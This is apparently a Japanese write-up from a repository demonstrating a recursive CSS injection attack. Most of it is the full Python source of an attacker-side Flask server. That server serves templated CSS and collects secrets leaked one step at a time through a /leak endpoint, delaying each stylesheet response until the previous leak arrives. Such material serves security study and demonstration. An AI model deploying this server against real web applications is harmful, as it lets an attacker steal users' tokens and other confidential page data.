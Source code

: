 ## 実装
### 脆弱なWebアプリケーション(/recursive/user/*)
脆弱なWebアプリケーションの実装は`/classic/user/*`のそれと同じであるため省略します．

### 攻撃者用Webサーバ(/recursive/attacker/server.py)
攻撃者用Webサーバは以下のエンドポイントを持ちます．  

- `/css/<filename>`: CSSのレスポンスを行うエンドポイント．
- `/leak/<secret>`: リークした機密情報を取得するエンドポイント．

CSSへのアクセスに対して機密情報のリークが追いつくまでレスポンスを保留するために，`Flask.run`をする際に`threaded`オプションを`True`に設定しています．  

```python
import logging
import time

from flask import Flask, request, render_template, Response
from typing import Dict, Union

# Turn off default logging by Flask.
l = logging.getLogger()
l.addHandler(logging.FileHandler("/dev/null"))

app: Flask = Flask(__name__)

g: Dict[str, Union[str, int]] = {
    "known_secret": "",
    "index": 0
}


@app.route("/leak/<secret>")
def leak(secret):
    g["known_secret"] = secret
    g["index"] += 1

    print("secret={}".format(g["known_secret"]))

    return "ok"


@app.route('/css/<filename>')
def css(filename):
    index: int = int(filename.split(".")[0])

    while index != g["index"]:
        time.sleep(0.01)

    return Response(render_template("tmpl.jinja2", index=index, known_secret=g["known_secret"]), headers={'Content-Type': 'text/css'})


app.run(host="0.0.0.0", port=8081, threaded=True)
```
